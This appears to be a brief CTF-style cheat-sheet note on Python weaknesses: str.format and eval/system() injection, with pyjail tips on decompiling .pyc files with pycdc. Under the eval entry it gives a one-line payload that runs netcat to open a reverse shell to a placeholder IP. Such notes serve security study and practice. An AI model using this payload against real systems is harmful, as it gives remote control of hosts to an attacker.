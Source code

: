 # Python

## vulnerabilities

- [str format](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/)
- `eval`, execute system()
  - `"__import__('os').system('nc your_ip port -e /bin/sh')"`

## [obfuscation](../forensics/obfuscation.md#python)

## pyjails

understand pickled code if it executes automatically:

- compile python code to pyc
- decompile pyc with [pycdc](https://github.com/zrax/pycdc) or online
  - how to install pycdc:
    ```sh
      git clone https://github.com/zrax/pycdc
      cd pycdc
      cmake .
      make
    ```

